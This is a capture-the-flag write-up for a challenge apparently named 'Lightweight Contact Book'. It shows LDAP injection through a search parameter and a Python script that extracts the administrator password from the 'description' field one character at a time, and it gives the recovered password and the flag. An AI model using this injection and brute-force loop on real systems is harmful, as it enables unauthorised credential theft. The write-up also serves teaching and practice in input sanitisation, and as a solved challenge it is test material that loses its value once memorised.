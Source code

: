 # Lightweight Contact Book

With some fuzzing we can figure out that the search is using LDAP. The forgot password message reveals that the password is in the 'description' field. This allows us to char-by-char brute the password: administrator\)\(description=\*

Will return a result if the password matches this pattern

The pw is: very\_secure\_hacktivity\_pass

```python
import requests
import string
import sys
pwchars = string.ascii_lowercase + string.ascii_uppercase + "_- "

template = "http://jh2i.com:50019/?search=administrator)(description="
password = ""

while True:
    for c in pwchars:
        r = requests.get(template + password  +  c + "*")
        if "Administrator User" in r.text:
            password += c
            break
        print(password + c)
        sys.stdout.write("\033[F")
```

## Flag:flag{kids\_please\_sanitize\_your\_inputs}

